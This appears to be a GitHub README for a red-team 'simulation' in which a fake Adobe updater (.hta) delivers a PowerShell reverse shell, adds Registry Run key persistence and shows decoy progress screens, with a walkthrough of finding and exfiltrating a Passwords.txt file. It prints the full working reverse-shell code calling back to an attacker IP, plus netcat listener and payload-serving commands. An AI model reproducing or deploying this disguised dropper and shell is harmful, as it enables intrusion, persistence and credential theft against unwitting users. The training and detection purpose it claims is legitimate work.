# AdobeUpdater-RedTeamSimulation

A red team simulation that mimics an Adobe software update to deliver a PowerShell reverse shell with stealth and persistence. Designed to emulate realistic attacker behavior and test detection capabilities in a Windows environment.

---

## 🌌 Overview

This simulation uses a **fake Adobe Updater UI** (`.hta`) that deploys:

- **PowerShell reverse shell** to a remote Netcat listener
- **Registry Run key persistence**
- **Stealthy VBScript execution**
- **Decoy visuals** to enhance realism
- **Base64 encoding and realistic icon spoofing**

Intended for ethical red team demonstrations, SOC analyst training, and detection engineering labs.

The project directory is organized as follows:

## 📁 Project Structure
```
.
├── payload/ # HTA payload and artifacts
│ ├── AdobeUpdater.hta # Main dropper with embedded VBScript and UI
│ ├── adobe.ico # Spoofed Adobe icon
│ ├── adb1.png # Decoy loading screen
│ └── .gitkeep
├── analysis/
│ └── screenshots/ # All demo screenshots (1.png–27.png + kt1.png/kt2.png)
├── README.md
```
## 🔄 How It Works

1. **User executes** the `.hta` payload mimicking a legitimate Adobe updater.
2. Payload runs an embedded VBScript, which:
 - **Launches a PowerShell reverse shell**
 - **Adds a **Run registry key** for persistence**
 - **Displays a **fake update window** to distract the user**
3. **Reverse shell is caught** by the attacker's Netcat listener.

---

## 👁️ Demo Walkthrough

### 1. Attacker Prepares for Callback and File Exfiltration 

*On the attacker’s side, two terminals are opened — one to catch a reverse shell as shown in Figure 1, and<br>
one to handle file uploads as shown in Figure 2.*
<br><sub>(Figure 1)</sub><br>
<br>
<em>In this terminal a Netcat listener is started on port 443 for the reverse shell.</em>
<br><sub>(Figure 2)</sub><br>
<br>
<em>In this terminal, the attacker starts a Python upload server on port 8080.</em>
</p>

### 2. Fake Adobe Updater
*The malicious shortcut on the desktop mimics a genuine Adobe software updater.*
<br><sub>(Figure 3)</sub><br>
<br> 
*When the victim clicks on the decoy updater as shown in Figure 3, a window with a fake "critical security updates" message appears.<br> 
Once the OK button is clicked the connection is made back to the Netcat listener as shown in Figure 6*
<br><sub>(Figure 4)</sub><br>
  
<br><sub>(Figure 5)</sub><br>
  
*For an added, realistic effect a fake progress bar is shown
to mask the malicious activity.*<br>

---
### 3. Payload Execution & Reverse Shell Connection Made
*In Figure 6, we can see the attacker successfully catches the reverse shell and a connection is now established from the victim’s machine back to the attacker's Netcat listener.
Next, the attacker runs the `ls` command to list the contents of the current working directory.*
<br><sub>(Figure 6)</sub><br>
<br>

### 4. Attacker Navigates the File System
*In Figure 7, the attacker begins backing out of the current directory using `cd` command repeating this until reaching the user's home directory.
They then run the `ls` command again and spot the Documents directory witch is there target.*
<br><sub>(Figure 7)</sub><br>
<br>

*Figure 8 shows the attacker using the `cd` command to enter the Documents directory.*
<br><sub>(Figure 8)</sub><br>
<br>

*In Figure 9, we the attacker has successfully navigated into the Documents folder. Inside, they spot a file named Passwords.txt.*
<br><sub>(Figure 9)</sub><br>
<br>

---
### 5. Second Stage of the Attack: Uploading the File
*Now that the attacker has successfully navigated through the file system and reached the Documents directory, they’ve located the Passwords.txt file.
At this point they’re ready to begin the second stage of the attack. They’ve almost reached Step 7 of the Cyber Kill Chain — Actions on Objectives — but not quite yet.*

<br><sub>(Figure 10)</sub><br>
<br>

<br><sub>(Figure 11)</sub><br>
<br>

<br><sub>(Figure 12)</sub><br>
<br>

---

### 4. Network Exfiltration Evidence (Wireshark)

<br>

<br>

<br>

<br>

<br>

<br>

---

### 5. Persistence and Detection

<br>

<br>

<br>

<br>

<br>

<br>

<br>

<br>

<br>

---

## 🧪 PowerShell Reverse Shell (Payload)

```powershell
$client = New-Object System.Net.Sockets.TCPClient("192.168.78.129",4444)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
  $sendback = (iex $data 2>&1 | Out-String )
  $sendback2  = $sendback + "PS " + (pwd).Path + "> "
  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
  $stream.Write($sendbyte,0,$sendbyte.Length)
  $stream.Flush()
}
$client.Close()
```

---

## 📃 MITRE ATT&CK Mapping

| Technique         | ID         | Description                        |
|------------------|------------|------------------------------------|
| Initial Access    | T1204.002  | User Execution via HTA             |
| Execution         | T1059.001  | PowerShell                         |
| Persistence       | T1547.001  | Registry Run Key                   |
| Defense Evasion   | T1218.005  | LOLBAS via `wscript.exe`           |
| Command & Control | T1071.001  | Reverse Shell over TCP             |

---

## 🚧 Setup Instructions

1. **Start Netcat listener on Kali**
   ```bash
   nc -lvnp 443
   ```

2. **Serve the payload**
   ```bash
   cd payload/
   python3 -m http.server 8888
   ```

3. **Trigger on victim**
   - Browse to hosted `.hta` from Windows VM
   - Execute it

---

## 🗋 Notes

- Tested on Windows 10 with default settings
- Avoid running on production systems
- Always use in an isolated lab environment

> **Disclaimer:** For educational use only. Do not deploy on unauthorized systems.

---
